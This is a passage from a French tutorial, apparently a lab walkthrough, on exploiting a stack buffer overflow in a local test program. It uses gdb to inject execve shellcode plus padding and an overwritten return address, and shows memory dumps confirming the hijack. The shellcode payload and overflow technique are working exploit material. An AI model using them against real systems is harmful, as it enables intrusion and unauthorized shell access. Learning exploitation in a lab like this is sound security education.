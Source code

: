Notre série de "x" doit avoir une taille de 93 octets (120 – 27).

On lance donc le programme comme suit dans _gdb_:

```
(gdb) run $(python -c 'print("\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "x" * 93 + "\xe0\xe1\xff\xff\xff\x7f\x00\x00")')
Starting program: /home/kali/bo_2 $(python -c 'print("\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "x" * 93 + "\xe0\xe1\xff\xff\xff\x7f\x00\x00")')

Breakpoint 10, maFonction (
    valeur=0x7fffffffe67d "1\300H\273ѝ\226\221Ќ\227\377H\367\333ST_\231RWT^\260;\017\005", 'x' <repeats 93 times>, "\340\341\377\377\377\177") at bo_2.c:8
8	}
(gdb) x/144bx buffer
0x7fffffffe1e0:	0x31	0xc0	0x48	0xbb	0xd1	0x9d	0x96	0x91
0x7fffffffe1e8:	0xd0	0x8c	0x97	0xff	0x48	0xf7	0xdb	0x53
0x7fffffffe1f0:	0x54	0x5f	0x99	0x52	0x57	0x54	0x5e	0xb0
0x7fffffffe1f8:	0x3b	0x0f	0x05	0x78	0x78	0x78	0x78	0x78
0x7fffffffe200:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe208:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe210:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe218:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe220:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe228:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe230:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe238:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe240:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe248:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe250:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe258:	0xe0	0xe1	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe260:	0xd8	0xe3	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe268:	0x00	0x00	0x00	0x00	0x04	0x00	0x00	0x00
(gdb) i f
Stack level 0, frame at 0x7fffffffe260:
 rip = 0x555555555164 in maFonction (bo_2.c:8); saved rip = 0x7fffffffe1e0
 called by frame at 0x7fffffffe268
 source language c.
 Arglist at 0x7fffffffe250, args: 
    valeur=0x7fffffffe67d "1\300H\273ѝ\226\221Ќ\227\377H\367\333ST_\231RWT^\260;\017\005", 'x' <repeats 93 times>, "\340\341\377\377\377\177"
 Locals at 0x7fffffffe250, Previous frame's sp is 0x7fffffffe260
 Saved registers:
  rbp at 0x7fffffffe250, rip at 0x7fffffffe258
```

Si notre calcul est bon, on devrait voir les données du shellcode à l’adresse de la variable buffer et cette même adresse comme adresse de retour ("saved rip").

Finalement, pour exécuter notre _shellcode_, on supprime tous les points d’arrêt avec la commande `clear` et on relance l’exécution:

```
(gdb) clear
Deleted breakpoint 1 
(gdb) run $(python -c 'print("\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "x" * 93 + "\xe0\xe1\xff\xff\xff\x7f\x00\x00")')
Starting program: /usr/bin/dash $(python -c 'print("\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "x" * 93 + "\xe0\xe1\xff\xff\xff\x7f\x00\x00")')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/kali/bo_2 $(python -c 'print("\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "x" * 93 + "\xe0\xe1\xff\xff\xff\x7f\x00\x00")')
```